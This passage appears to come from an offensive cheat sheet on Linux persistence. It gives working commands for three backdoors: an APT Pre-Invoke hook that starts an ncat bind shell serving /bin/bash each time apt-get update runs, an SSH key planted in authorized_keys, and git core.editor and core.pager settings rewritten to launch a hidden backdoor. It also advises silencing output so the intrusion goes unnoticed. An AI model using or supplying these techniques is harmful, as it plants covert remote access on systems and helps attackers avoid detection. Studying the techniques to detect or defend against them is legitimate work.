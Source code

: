 ## APT Configuration

If you can create a file on the `apt.conf.d` directory with:

```ps1
APT::Update::Pre-Invoke {"CMD"};
```

Next time "`apt-get update`" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## SSH Configuration

Add an SSH key into the `~/.ssh` folder.

1. Generate a new key with `ssh-keygen`
2. Write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3. Set the right permission

* 700 for `~/.ssh`
* 600 for `authorized_keys`

## Git Configuration

Backdooring git can be a useful way to obtain persistence without the need for root access.  
Special care must be taken to ensure that the backdoor commands create no output, otherwise the persistence is trivial to notice.

### Git Configuration Variables

There are multiple [git configuration variables](https://git-scm.com/docs/git-config) that execute arbitrary commands when certain actions are taken.  
As an added bonus, git configs can be specified multiple ways leading to additional backdoor opportunities.  
Configs can be set at the user level (`~/.gitconfig`), at the repository level (`path/to/repo/.git/config`), and sometimes via environment variables.

`core.editor` is executed whenever git needs to provide the user with an editor (e.g. `git rebase -i`, `git commit --amend`).  
The equivalent environment variable is `GIT_EDITOR`.

```properties
[core]
editor = nohup BACKDOOR >/dev/null 2>&1 & ${VISUAL:-${EDITOR:-emacs}}
```

`core.pager` is executed whenever git needs to potentially large amounts of data (e.g. `git diff`, `git log`, `git show`).  
The equivalent environment variable is `GIT_PAGER`.

```properties
[core]
pager = nohup BACKDOOR >/dev/null 2>&1 & ${PAGER:-less}
```
